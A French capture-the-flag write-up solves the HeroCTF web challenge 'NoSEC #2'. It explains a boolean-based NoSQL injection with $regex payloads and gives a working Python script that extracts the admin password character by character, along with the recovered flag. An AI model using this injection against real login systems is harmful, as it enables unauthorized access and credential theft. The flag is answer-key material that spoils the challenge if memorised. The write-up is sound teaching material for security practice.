 # NoSEC #2

### Catégorie

Web

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge !
L'URL du challenge reste la même.

http://challs.heroctf.fr:3000/login

Format: Hero{motdepasse}

### Auteur

xanhacks

### Solution

Ici, nous pouvons utiliser une regex pour deviner le mot de passe et faire une NoSQL injection boolean based.

C'est à dire, la requête NoSQL renvoie :
- true : le mot de passe match la regex (L'application web nous indique que la connexion a eu lieu avec succès)
- false : le mot de passe NE match PAS la regex (L'application web nous indique que le mot de passe n'est pas correct)

Exemple:
```
-> password: abc123

regex: a.*  (valid)	   {"username":"admin","password":{"$regex":"^a.*$"}}
regex: aa.* (not valid)
regex: ab.* (valid)
regex: aba.* (not valid)
regex: abb.* (not valid)
regex: abc.* (valid)
etc ...
```

Nous pouvons donc récupérer caractère par caractère le mot de passe de l'administrateur avec un script python.

```python
#!/usr/bin/env python3
import json
import string
import requests

flag = ""
url = "http://challs.heroctf.fr:3000/login"

print("password: ", end="")

for _ in range(32):
    for c in string.printable:
        data = {
                "username": "admin",
                "password": {"$regex": f"^{flag}{c}.*$"}
        }

        req = requests.post(url, json.dumps(data), headers={"Content-Type": "application/json"})
        
        if "You can validate" in req.text:
            flag += c
            print(c, end="", flush=True)
            break
```

```shell
> python3 solve.py
password: 5d41402abc4b2a76b9719d911017c592
```

### Flag

Hero{5d41402abc4b2a76b9719d911017c592}